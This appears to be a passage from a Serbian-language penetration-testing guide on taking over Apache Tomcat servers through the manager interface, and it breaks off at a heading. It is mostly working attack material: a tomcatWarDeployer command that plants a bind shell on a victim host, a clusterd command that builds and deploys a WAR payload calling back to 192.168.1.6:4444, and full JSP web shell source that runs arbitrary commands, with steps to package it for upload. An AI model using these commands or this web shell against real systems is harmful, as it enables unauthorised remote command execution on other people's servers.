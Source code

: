 #### Bind shell

#### Bind shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Korišćenje [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Ručni metod - Veb šel

Kreirajte **index.jsp** sa ovim [sadržajem](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp):

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```

### Ručni metod 2
